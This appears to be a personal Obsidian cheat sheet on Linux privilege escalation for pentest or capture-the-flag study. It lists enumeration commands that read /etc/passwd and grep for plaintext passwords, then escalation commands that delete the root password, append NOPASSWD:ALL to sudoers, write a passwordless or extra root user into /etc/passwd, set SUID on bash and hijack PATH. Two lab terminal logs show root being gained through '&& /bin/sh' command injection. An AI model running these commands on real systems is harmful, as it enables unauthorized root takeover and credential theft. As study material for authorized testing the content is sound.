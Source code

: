 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Linux Privilege Escalation]]  
___

## Description:  
Auto enumeration with [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
### useful enumeration

users
`cat /etc/passwd`

**What commands can the user execute with sudo?
`sudo -l

**What is the kernel version and architecture type?
`uname -a
`uname -r

**What is the OS version
`cat /etc/*-release
kernel modules
`lsmod`
`/sbin/modinfo libata`

**What languages are installed?
`man -k language
`which gcc
`which g++

**running processes**
ps aux

**Run pspy64 on the machine to get the process run by root.**

**What are the SUID/GUID binaries?
``find / -perm -u=s -type f 2>/dev/null
``find / -perm -g=s -type f 2>/dev/null

look for vulnerable programs that run as root
[gtfobins](https://gtfobins.github.io/)

**Are there world writable files?
`find / -writable -type d 2>/dev/null

**What have users been doing? Command history?
`history
``.bash_history

**Are there any plaintext credentials to be found?
`find . -type f | xargs grep –i “password”
`grep –r . –e “password” 2>/dev/null

**What jobs are scheduled?
`crontab -l
l`s -lah /etc/cron* 2>/dev/null
`cat /etc/crontab`

networking
`netstat -tulpn`
`/sbin/route`
`ss -anp`
`cd /etc/iptables`
`cat /etc/hosts` (can find vhosts on webservers or check config files)

**applications installed**
`dpkg -l`

**unmounted disks
`cat /etc/fstab`
`mount`
`/bin/lsblk`

**What processes and services are running?  Which are running as root?
`ps –ef
`ps –ef | grep root

**Script that deletes the root password**
bash:
`passwd -d root`
`su root`
python:
`import os;os.system(\"passwd -d root\")`
or
`echo "import os;os.system(\"passwd -d root\")" > bash.py`


**Scripts that can be used if they run as root:
`echo “user ALL=(ALL) NOPASSWD:ALL” >> /etc/sudoers
`echo “user::0:0:System Administrator:/root/root:/bin/bash” >> /etc/passwd
`bash -i

**Editing the Sudoers file to give root
change:
`loneferret ALL=NOPASSWD: !/usr/bin/su, /usr/local/bin/ht 
To:
`loneferret ALL=NOPASSWD: /bin/su, /usr/local/bin/ht 
`loneferret@Kioptrix3:~$ sudo /bin/su 

**Can you set a SUID on bash?
`chmod +s /bin/bash`
`/bin/bash -p`

**Is /etc/passwd writable?**
Removing x means root requires no password
`echo root::0:0:root:/root:/bin/bash > /etc/passwd`
--OR--
generate hash of the password:
`openssl passwd -1 -salt [salt value] {password}
`openssl passwd -1 -salt user3 pass123
to create a second root user with "mrcake" password:
`echo "root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash" >> /etc/passwd
to switch to a root2 account that was just created:
`su root2
`Password: mrcake
su root
**Can you run tcpdump?**
run tcpdump with -I lo for loopback
or what other systems are connecting to it? You might be able to get a username and password

**is it AD domain joined?**
check:
`/var/lib/sss/db`
`strings cache_cerberus.local.ldb
Look for password hashes

**Program that runs a command without an absolute path**
Create a program with the same name in the tmp directory (echo /bin/bash >> command) and then add tmp to the beginning of path (export PATH=/tmp:$PATH)

```
kane@pwnlab:~$ cd /tmp

cd /tmp

kane@pwnlab:/tmp$ echo /bin/bash > cat

echo /bin/bash > cat

kane@pwnlab:/tmp$ chmod 777 cat

chmod 777 cat

kane@pwnlab:/tmp$ export PATH=/tmp:$PATH

export PATH=/tmp:$PATH

kane@pwnlab:/tmp$ cd /home/kane

cd /home/kane

kane@pwnlab:~$ ./msgmike

./msgmike

mike@pwnlab:~$ id

id

uid=1002(mike) gid=1002(mike) groups=1002(mike),1003(kane)

```
**Can you use command concatenation with && /bin/sh or &&/bin/bash?

```
mike@pwnlab:/home/mike$ ./msg2root

./msg2root

Message for root: hello && /bin/sh

hello && /bin/sh

hello

# id

id

uid=1002(mike) gid=1002(mike) euid=0(root) egid=0(root) groups=0(root),1003(kane)

```



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (01:02 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
